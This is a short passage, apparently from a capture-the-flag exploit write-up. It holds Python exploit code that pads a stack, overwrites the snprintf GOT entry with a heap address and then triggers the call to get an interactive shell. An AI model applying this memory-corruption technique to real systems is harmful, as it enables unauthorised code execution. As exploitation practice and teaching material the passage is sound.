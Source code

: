 # Pad stack #3 until we overwrite into stack #4
for i in range(0, (0xac / 4) - 1):
    send_val(r, 1)

# Write our random value and address we want to write to
# to the top of the stack
write_num(r, random_value)
write_num(r, overwrite_got)

# Shift to stack #4 (really shifting to the GOT address of snprintf)
next_stack(r)
# Write the address of the first heap to the snprintf GOT entry
first_heap_addr = (heap_addr ^ (heap_addr & 0xff)) | 0x10
write_num(r, first_heap_addr)

# Trigger a call to snprintf
del_stack(r)

# Get our shell <3
r.interactive()
{% endhighlight %}
